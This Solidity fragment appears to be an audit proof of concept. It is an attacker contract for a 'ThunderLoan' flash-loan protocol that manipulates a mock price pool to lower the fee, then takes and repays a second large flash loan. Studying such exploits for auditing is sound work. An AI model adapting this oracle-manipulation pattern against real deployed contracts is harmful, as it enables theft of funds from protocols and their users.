 ```solidity

    constructor(address thunderLoan, address _tSwapPool, IERC20 _tokenA) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
        tSwapPool = _tSwapPool;
        tokenA = _tokenA;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata params
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));

        // check if it is the first time through the reentrancy
        bool isFirst = abi.decode(params, (bool));

        if (isFirst) {
            // Manipulate the price
            MockTSwapPool(tSwapPool).setPrice(1e15);
            // repay the initial, small loan
            IERC20(token).approve(s_thunderLoan, attackFee1 + 1e6);
            IThunderLoan(s_thunderLoan).repay(address(tokenA), 1e6 + attackFee1);
            ThunderLoan(s_thunderLoan).flashloan(address(this), tokenA, attackAmount, abi.encode(false));
            attackFee1 = fee;
            return true;
        } else {
            attackFee2 = fee;
            // simulate withdrawing the funds from the price pool
           //MockTSwapPool(tSwapPool).setPrice(1e18);
            // repay the second, large low fee loan
            IERC20(token).approve(s_thunderLoan, attackAmount + attackFee2);
            IThunderLoan(s_thunderLoan).repay(address(tokenA), attackAmount + attackFee2);
            return true;
        }
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }
}

```
